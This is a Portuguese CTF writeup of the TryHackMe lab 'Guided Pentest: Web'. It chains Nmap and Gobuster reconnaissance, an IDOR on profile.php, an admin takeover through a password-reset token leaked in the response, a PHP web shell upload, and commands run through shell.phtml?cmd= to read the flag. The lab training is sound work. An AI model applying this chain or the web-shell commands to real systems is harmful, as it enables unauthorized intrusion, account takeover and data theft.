









# 🧭 Guided Pentest: Web — CTF Writeup
### TryHackMe | Guided Room | IDOR · Broken Password Reset · Arbitrary File Upload → RCE

---

| **Analista**          | Mauricio Robert                                                                        |
|-----------------------|----------------------------------------------------------------------------------------|
| **Organização**       | Faculdade Impacta                                                                      |
| **Data do Relatório** | 28/09/2026                                                                             |
| **Data do Pentest**   | 28/09/2026 · 16:04 – 16:23 (GMT-0300)                                                  |
| **Alvo**              | `10.65.164.140` (`recruitx-prod`) — TryHackMe · Guided Pentest: Web                     |
| **Classificação**     | CONFIDENCIAL                                                                           |
| **Ferramentas**       | Nmap 7.99 · Gobuster 3.8.2 · Navegador (testes manuais de IDOR e fluxo de autenticação) · Web Shell PHP (`shell.phtml`) |
| **Plataforma**        | TryHackMe — Sala Guiada (Guided Room)                                                  |

---

## 🔍 Resumo Executivo

Este relatório documenta o comprometimento completo da máquina **Guided Pentest: Web** (TryHackMe), uma aplicação de recrutamento interna chamada **RecruitX**, hospedada em um host **Ubuntu** (hostname `recruitx-prod`). Diferente de uma falha única, este cenário exigiu o **encadeamento de múltiplas vulnerabilidades de aplicação web**: reconhecimento de rede e enumeração de conteúdo via **Nmap** e **Gobuster**; exploração de uma falha de **IDOR (Insecure Direct Object Reference)** no endpoint `profile.php`, permitindo a um usuário comum enumerar perfis de outros usuários e descobrir o e-mail da conta administradora; abuso de uma **falha crítica no fluxo de redefinição de senha**, que expunha o token de reset diretamente na resposta da aplicação, permitindo o sequestro completo da conta de administrador (`Sarah Mitchell`) sem qualquer interação da vítima; uso do acesso administrativo para alcançar um painel de **upload de documentos** com validação de extensão insuficiente, possibilitando o envio de uma **web shell PHP** (`shell.phtml`); e, por fim, **execução remota de comandos** através dessa web shell, culminando na captura da flag final.

---

## 🛠 Ferramentas Utilizadas

| Ferramenta                     | Versão  | Finalidade                                                                             |
|---------------------------------|---------|-----------------------------------------------------------------------------------------|
| **Nmap**                        | 7.99    | Varredura de portas e fingerprint de serviços (`-p- -Pn`, `-sC -sV`)                    |
| **Gobuster**                    | 3.8.2   | Enumeração de diretórios e arquivos na aplicação web (porta 80)                         |
| **Navegador Web**                | -       | Testes manuais de controle de acesso (IDOR), fluxo de reset de senha e upload de arquivos |
| **Web Shell PHP**                | -       | `shell.phtml` enviado via upload arbitrário, usado para execução remota de comandos      |

---

## 📋 Fases de Comprometimento

### FASE 1 — Reconhecimento: Varredura Nmap

> **16:04 – 16:05 GMT-0300 · Nmap 7.99**

```bash
nmap -p- -Pn --min-rate=5000 10.65.164.140
```

```
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
```

```bash
nmap -sC -sV -Pn -p 22,80,3306,8080 10.65.164.140
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.58 (Ubuntu)
|_http-title: RecruitX - Home
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



Quatro portas expostas: **SSH** (22), **HTTP** (80, hospedando a aplicação **RecruitX**), **MySQL** (3306, recusando autenticação anônima) e um segundo serviço **HTTP** (8080) exibindo apenas a página padrão do Apache2 — provavelmente um ambiente de desenvolvimento/teste sem relevância direta para o vetor de ataque principal, que se concentrou na aplicação RecruitX na porta 80.

---

### FASE 2 — Enumeração de Conteúdo Web: Gobuster

```bash
gobuster dir -u http://10.65.164.140/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php -t 80
```



```
admin           (Status: 301) [--> http://10.65.164.140/admin/]
api             (Status: 301) [--> http://10.65.164.140/api/]
config          (Status: 301) [--> http://10.65.164.140/config/]
dashboard.php   (Status: 302) [--> /login.php]
includes        (Status: 301) [--> http://10.65.164.140/includes/]
index.php       (Status: 200)
jobs.php        (Status: 200)
logout.php      (Status: 302) [--> /login.php]
login.php       (Status: 200)
profile.php     (Status: 302) [--> /login.php]
register.php    (Status: 200)
test            (Status: 200)
uploads         (Status: 301) [--> http://10.65.164.140/uploads/]
```

A enumeração revelou a estrutura da aplicação **RecruitX**: um portal de recrutamento com autenticação (`login.php`/`register.php`), painéis restritos (`admin/`, `dashboard.php`), um endpoint de perfil de usuário (`profile.php`) e um diretório de uploads (`uploads/`) — este último se mostraria crítico mais adiante.

---

### FASE 3 — Quebra de Controle de Acesso: IDOR em `profile.php`

> **16:13 GMT-0300**

Após se registrar/autenticar como um candidato comum (`Nistezy`), a aplicação permitia visualizar o próprio perfil através de `profile.php?id=<N>`. Alterando manualmente o parâmetro `id` para valores vizinhos, foi possível acessar perfis de **outros usuários**, sem qualquer verificação de propriedade do recurso:

```
GET /profile.php?id=1
```



```
NAME:  Sarah Mitchell
EMAIL: s.mitchell@recruitx.thm
ROLE:  administrator
```

```
GET /profile.php?id=2
```



```
NAME:  James Crawford
EMAIL: j.crawford@recruitx.thm
ROLE:  hiring_manager
```

Essa falha de **IDOR** (referência direta a objeto insegura) permitiu enumerar todos os usuários da plataforma apenas incrementando o `id`, revelando papéis (`administrator`, `hiring_manager`, `candidate`) e, mais criticamente, o **e-mail da conta administradora**: `s.mitchell@recruitx.thm`. Essa informação seria a chave para a próxima fase do ataque.

---

### FASE 4 — Sequestro de Conta Administrativa: Falha no Reset de Senha

> **16:15 GMT-0300**

Com o e-mail de `Sarah Mitchell` (administradora) em mãos, o fluxo de recuperação de senha foi testado. Ao solicitar um reset para esse e-mail, a aplicação cometeu um erro crítico: **exibiu o token de reset diretamente na própria página de resposta**, em vez de enviá-lo exclusivamente por e-mail para o dono da conta:

```
GET /reset.php?token=181806&email=s.mitchell%40recruitx.thm
```



```
RESET TOKEN: 181806
Reset URL: /reset.php?token=181806&email=s.mitchell%40recruitx.thm
```

Como o token era exibido na própria resposta HTTP (sem qualquer necessidade de acesso à caixa de e-mail da vítima), foi trivial definir uma nova senha para a conta de **Sarah Mitchell** diretamente através do formulário "Set New Password" presente na mesma página, completando o sequestro total da conta administradora sem qualquer interação da vítima.

---

### FASE 5 — Confirmação de Acesso Administrativo

Com a nova senha definida, o login foi realizado como `s.mitchell@recruitx.thm`:


```
administrator
Sarah Mitchell
```

O menu de navegação passou a exibir a opção **Admin**, confirmando que a conta com privilégios administrativos completos da plataforma RecruitX havia sido totalmente comprometida.

---

### FASE 6 — Upload Arbitrário de Arquivo → Web Shell

> **16:16 – 16:20 GMT-0300**

O painel administrativo expunha uma funcionalidade de **upload de documentos da empresa** em `/admin/upload.php`, teoricamente restrita a arquivos PDF, DOCX, JPG e PNG:



```
Upload Company Documents
Accepted formats: PDF, DOCX, JPG, PNG · Maximum size: 5MB
Uploaded files are stored in: /uploads/documents/
```

A validação de tipo de arquivo, no entanto, não bloqueava adequadamente extensões executáveis pelo Apache. Um arquivo malicioso `shell.phtml` (extensão processada como PHP pela configuração padrão do Apache/Ubuntu) foi enviado com sucesso:



```
File uploaded successfully: /uploads/documents/shell.phtml
```

O upload sem restrição adequada de tipo de arquivo, combinado com o diretório de uploads ser publicamente acessível (identificado na Fase 2), resultou em uma **web shell** funcional hospedada diretamente no servidor.

---

### FASE 7 — Execução Remota de Comandos e Captura da Flag

> **16:21 – 16:23 GMT-0300**

Com a web shell no ar, comandos arbitrários passaram a ser executados via parâmetro `cmd`:

```
GET /uploads/documents/shell.phtml?cmd=hostname
```



```
recruitx-prod
```

O hostname `recruitx-prod` confirmou a execução de código arbitrário no servidor. Em seguida, a flag foi capturada diretamente:

```
GET /uploads/documents/shell.phtml?cmd=cat%20/home/ubuntu/recruitx/flag.txt
```



```
THM{ch41n3d_vulns_4r3_d3v4st4t1ng}
```

**Flag: `THM{ch41n3d_vulns_4r3_d3v4st4t1ng}`**

O próprio conteúdo da flag reforça a natureza do desafio: nenhuma vulnerabilidade isolada seria crítica por si só, mas o **encadeamento** de IDOR → falha de reset de senha → upload arbitrário → RCE resultou no comprometimento total da aplicação.

---

## ⛓ Linha do Tempo do Comprometimento

```
[16:04-16:05 GMT-0300] FASE 1 — RECONHECIMENTO (Nmap 7.99)
    22/tcp SSH · 80/tcp HTTP (RecruitX) · 3306/tcp MySQL · 8080/tcp HTTP (dev/teste)
    ↓
[FASE 2] ENUMERAÇÃO DE CONTEÚDO (Gobuster)
    /admin/ · /profile.php · /register.php · /uploads/ · /admin/upload.php
    ↓
[16:13 GMT-0300] FASE 3 — IDOR EM profile.php
    profile.php?id=1 → Sarah Mitchell (administrator) — e-mail vazado
    profile.php?id=2 → James Crawford (hiring_manager)
    ↓
[16:15 GMT-0300] FASE 4 — FALHA NO RESET DE SENHA
    reset.php?token=181806&email=s.mitchell@recruitx.thm
    Token exposto na própria resposta → nova senha definida para o admin
    ↓
[FASE 5] ACESSO ADMINISTRATIVO CONFIRMADO
    Login como Sarah Mitchell (administrator)
    ↓
[16:16-16:20 GMT-0300] FASE 6 — UPLOAD ARBITRÁRIO DE ARQUIVO
    /admin/upload.php → shell.phtml enviado com sucesso
    ↓
[16:21-16:23 GMT-0300] FASE 7 — RCE + FLAG FINAL
    shell.phtml?cmd=hostname → recruitx-prod
    shell.phtml?cmd=cat /home/ubuntu/recruitx/flag.txt
    FLAG: THM{ch41n3d_vulns_4r3_d3v4st4t1ng} ✓
    ↓
COMPROMETIMENTO CONCLUÍDO — execução remota de comandos via conta administrativa sequestrada
```

---

## 🗺 Mapeamento Investigativo

| Fase | Ferramenta/Técnica | Achado |
|------|--------------------|--------|
| Reconhecimento | Nmap 7.99 | SSH (22), HTTP/RecruitX (80), MySQL (3306), HTTP dev (8080) |
| Enumeração de Conteúdo | Gobuster 3.8.2 | `/admin/`, `/profile.php`, `/register.php`, `/uploads/`, `/admin/upload.php` |
| Quebra de Controle de Acesso | IDOR manual (`profile.php?id=`) | E-mail e papel da conta administradora (`s.mitchell@recruitx.thm`) vazados |
| Sequestro de Conta | Falha no fluxo de `reset.php` | Token de reset exposto na resposta, permitindo redefinir a senha do admin |
| Acesso Administrativo | Login com credenciais redefinidas | Sessão completa como `Sarah Mitchell` (administrator) |
| Execução Remota de Código | Upload arbitrário (`/admin/upload.php`) | Web shell `shell.phtml` hospedada em `/uploads/documents/` |
| Flag Final | `shell.phtml?cmd=cat ...flag.txt` | Flag: `THM{ch41n3d_vulns_4r3_d3v4st4t1ng}` |

---

## 🚨 Artefatos e Indicadores Identificados

| Tipo | Indicador | Contexto |
|------|-----------|----------|
| Alvo | `10.65.164.140` (`recruitx-prod`) | Máquina Guided Pentest: Web (TryHackMe) — aplicação RecruitX |
| Serviços expostos | `22/TCP` (SSH) · `80/TCP` (RecruitX) · `3306/TCP` (MySQL) · `8080/TCP` (HTTP dev) | Superfície de ataque total |
| Vulnerabilidade 1 | IDOR em `profile.php?id=` | Enumeração de perfis e vazamento do e-mail administrativo |
| Vulnerabilidade 2 | Token de reset de senha exposto na resposta | `reset.php?token=181806&email=s.mitchell@recruitx.thm` |
| Vulnerabilidade 3 | Validação de extensão insuficiente no upload | `/admin/upload.php` aceitou `shell.phtml` |
| Artefato malicioso | `shell.phtml` | Web shell hospedada em `/uploads/documents/shell.phtml` |
| Conta comprometida | `s.mitchell@recruitx.thm` (administrator) | Conta de Sarah Mitchell, sequestrada via falha no reset de senha |
| Flag | `THM{ch41n3d_vulns_4r3_d3v4st4t1ng}` | `/home/ubuntu/recruitx/flag.txt`, via `shell.phtml?cmd=` |
| Técnica (OWASP Top 10) | A01:2021 – Broken Access Control | IDOR em `profile.php` |
| Técnica (OWASP Top 10) | A07:2021 – Identification and Authentication Failures | Token de reset de senha exposto na resposta |
| Técnica (OWASP Top 10) | A05:2021 – Security Misconfiguration | Validação insuficiente de extensão no upload de arquivos |
| Técnica (MITRE ATT&CK) | `T1190` | Exploit Public-Facing Application (RCE via web shell após upload arbitrário) |
| Técnica (MITRE ATT&CK) | `T1078` | Valid Accounts (uso da conta administrativa sequestrada) |
| Técnica (MITRE ATT&CK) | `T1083` | File and Directory Discovery (Gobuster) |

---

## ✅ Resumo das Flags

| # | Flag | Valor | Localização |
|---|------|-------|-------------|
| 🚩 Flag Final | `flag.txt` | `THM{ch41n3d_vulns_4r3_d3v4st4t1ng}` | `/home/ubuntu/recruitx/flag.txt`, via `shell.phtml?cmd=cat ...` |

---

## 📚 Referências

- [TryHackMe — Guided Pentest: Web](https://tryhackme.com/room/guidedpentestweb)
- [OWASP Top 10 2021 — A01: Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [OWASP Top 10 2021 — A07: Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)
- [OWASP Top 10 2021 — A05: Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK T1083 — File and Directory Discovery](https://attack.mitre.org/techniques/T1083/)

---
